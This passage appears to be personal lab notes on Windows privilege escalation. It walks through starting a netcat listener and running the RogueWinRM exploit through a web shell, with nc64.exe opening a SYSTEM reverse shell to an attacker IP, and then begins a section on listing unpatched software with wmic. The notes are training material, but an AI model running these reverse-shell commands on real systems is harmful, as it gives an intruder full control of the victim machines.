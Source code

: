 ##### 6. Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:
`$ nc -lvnp 4442`

![](/assets/img/Pasted image 20230105231146.png)

##### 7. Use our web shell to `trigger` the `RogueWinRM` exploit using the following command:
`> C:\tools\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe <attacker-ip> 4442"`

	- This assumes that there is something in the victim's machine that could create a connection like netcat. Or we have to import one I guess if there isn't.

![](/assets/img/Pasted image 20230105231801.png)

	- It fails for some reason.

	Breakdown:
	- The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case.
	- The "-a" parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be "-e cmd.exe <attacker.-ip> <attacker's-port>"

**Question**:
- How exactly is the `BITS` service getting triggered?

![](/assets/img/Pasted image 20230105232300.png)

	- Works! We got an SYSTEM shell!

- **Note 1**: We are only using the web shell so that we are able to download the `RogueWinRM` from the attacker's machine to the victim's.
- **Note 2**: The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting again. The BITS service will stop automatically after 2 minutes of starting.

![](/assets/img/Pasted image 20230105232838.png)

------
# Abusing Vulnerable Software

### Unpatched Software
- Software installed on the target system can present various privilege escalation opportunities.
- As with drivers, organizations and users may not update them as often as they update the OS.

##### You can use the '`wmic`' tool to list software installed on the target system and its versions.
- The command below will dump information it can gather on installed software:
`> wmic product get name,version, vendor`
